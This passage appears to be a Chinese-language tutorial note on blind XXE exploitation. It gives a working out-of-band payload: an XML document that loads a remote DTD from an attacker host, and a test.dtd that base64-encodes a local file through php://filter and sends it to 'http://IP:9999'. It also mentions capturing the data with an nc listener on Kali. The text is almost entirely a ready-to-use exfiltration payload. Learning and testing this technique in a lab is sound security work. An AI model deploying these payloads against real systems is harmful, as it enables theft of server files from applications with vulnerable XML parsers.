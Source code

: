 **无回显的XXE利用**：

注释掉echo和关闭错误显示

![img](XXE.assets/modb_20211021_1adf76b4-3260-11ec-b086-fa163eb4f6be.png)

构造payload：

```
<?xml version="1.0" encoding="utf-8"?> 
<!DOCTYPE root [ 
<!ENTITY % dtd SYSTEM "http://IP/test.dtd"> 
%dtd;%int;%send; ]>
```

test.dtd

```
<!ENTITY % file SYSTEM "php://filter/read=convert.base64-encode/resource=file:///D:/1.txt">
<!ENTITY % int "<!ENTITY &#x25; send SYSTEM 'http://IP:9999?p=%file;'>">
```

kali开启nc监听，运行payload

![img](XXE.assets/modb_20211021_1b29e672-3260-11ec-b086-fa163eb4f6be.png)
